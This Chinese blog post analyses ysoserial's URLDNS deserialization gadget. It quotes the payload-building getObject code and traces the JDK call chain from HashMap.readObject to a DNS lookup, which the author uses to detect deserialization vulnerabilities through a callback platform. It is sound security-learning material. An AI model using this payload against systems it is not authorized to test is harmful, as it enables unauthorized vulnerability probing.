





## 前言

最近在学习p牛的《java安全漫谈》，文中许多简化版易于理解的demo，根据对demo的理解结合`ysoserial`源码学习java反序列化，对`ysoserial`源码分析过程做下记录，本文先记录下URLDNS的分析过程，后续再继续学习记录所有CC链的分析过程，冲冲冲。

## 分析过程

### 如何调试ysoserial

`ysoserial`所有payload都放在`src/main/java/ysoserial/payloads`目录，目录下每个文件都有一个`main`方法，我们要调试哪个利用链，只需要调试对应的java文件即可，例如URLDNS.java的`main`方法

```java
 public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }
```

`payloads`目录下所有的`main`方法都会调用`PayloadRunner.run()`，跟进`PayloadRunner.run()`方法，可以看到主要逻辑是将传入第一个参数实例化后调用该类的`getObject`方法，接着将`getObject`方法的返回的对象序列化和反序列化，所以利用链的构造逻辑主要在`getObject`方法内。

```java
public static void run(final Class<? extends ObjectPayload<?>> clazz, final String[] args) throws Exception {
   // ensure payload generation doesn't throw an exception
   byte[] serialized = new ExecCheckingSecurityManager().callWrapped(new Callable<byte[]>(){
      public byte[] call() throws Exception {
         final String command = args.length > 0 && args[0] != null ? args[0] : getDefaultTestCmd();

         System.out.println("generating payload object(s) for command: '" + command + "'");

         ObjectPayload<?> payload = clazz.newInstance();
               final Object objBefore = payload.getObject(command);

         System.out.println("serializing payload");
         byte[] ser = Serializer.serialize(objBefore);
         Utils.releasePayload(payload, objBefore);
               return ser;
   }});

   try {
      System.out.println("deserializing payload");
      final Object objAfter = Deserializer.deserialize(serialized);
   } catch (Exception e) {
      e.printStackTrace();
   }

}
```

### URLDNS

来看下URLDNS的`getObject`方法

```java
public Object getObject(final String url) throws Exception {

        //Avoid DNS resolution during payload creation
        //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URL u = new URL(null, url, handler); // URL to use as the Key
        ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

        Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

        return ht;
}
```

逻辑比较简单，将一个`URL`对象put到`HashMap`的key，再将`URL`的`hashCode`设置为`-1`后返回，11行注释指出了只有`hashCode`设置`-1`才能触发DNS请求。

触发反序列化的方法是在`readObject`方法，上面`getObject`返回的是一个HashMap对象，所以先看下`HashMap`类的`readObject`方法

```java
private void readObject(java.io.ObjectInputStream s)
    throws IOException, ClassNotFoundException {
    // Read in the threshold (ignored), loadfactor, and any hidden stuff
    s.defaultReadObject();
    reinitialize();
    if (loadFactor <= 0 || Float.isNaN(loadFactor))
        throw new InvalidObjectException("Illegal load factor: " +
                                         loadFactor);
    s.readInt();                // Read and ignore number of buckets
    int mappings = s.readInt(); // Read number of mappings (size)
    if (mappings < 0)
        throw new InvalidObjectException("Illegal mappings count: " +
                                         mappings);
    else if (mappings > 0) { // (if zero, use defaults)
        // Size the table using given load factor only if within
        // range of 0.25...4.0
        float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
        float fc = (float)mappings / lf + 1.0f;
        int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                   DEFAULT_INITIAL_CAPACITY :
                   (fc >= MAXIMUM_CAPACITY) ?
                   MAXIMUM_CAPACITY :
                   tableSizeFor((int)fc));
        float ft = (float)cap * lf;
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                     (int)ft : Integer.MAX_VALUE);

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
        @SuppressWarnings({"rawtypes","unchecked"})
        Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
        table = tab;

        // Read the keys and values, and put the mappings in the HashMap
        for (int i = 0; i < mappings; i++) {
            @SuppressWarnings("unchecked")
                K key = (K) s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V) s.readObject();
            putVal(hash(key), key, value, false, false);
        }
    }
}
```

`hash`函数在41行，所以直接在41行下断点



跟进`hash`函数，接着调用了URL的`hashCode`

```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

在URL类的`hashCode`可以看到`hashCode`为`-1`才往下走，所以前面`getObject`函数中才会将`hashCode`设置为`-1`，接着调用`URLStreamHandler` 对象的`hashcode`方法

```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

跟入`hashCode`，将URL传入的`getHostAddress`方法



跟进`getHostAddress`方法，通过`InetAddress.getByName`将主机名转化为IP，也就是执行一次DNS查询



查看第三方反连平台，接收到了DNS请求，说明确实存在反序列化漏洞



调用链如下



所以URLDNS的`Gadget`为

```
HashMap.readObject()
->HashMap.hash()
->URL.hashCode()
->URLStreamHandler.hashCode()
->URLStreamHandler.getHostAddress()
->InetAddress.getByName()
```

## 总结

URLDNS调试起来简单清晰，确实比较适合像我这种入门级选手初次调试反序列流程，URLDNS只能触发DNS请求，并不能说是一个利用链，所以通常用URLDNS来判断是否存在反序列化漏洞。

## 参考

[《Java安全漫谈 - 08.认识最简单的Gadget——URLDNS》](https://wx.zsxq.com/dweb2/index/topic_detail/548242484442524)

[ysoserial项目](https://github.com/frohoff/ysoserial)

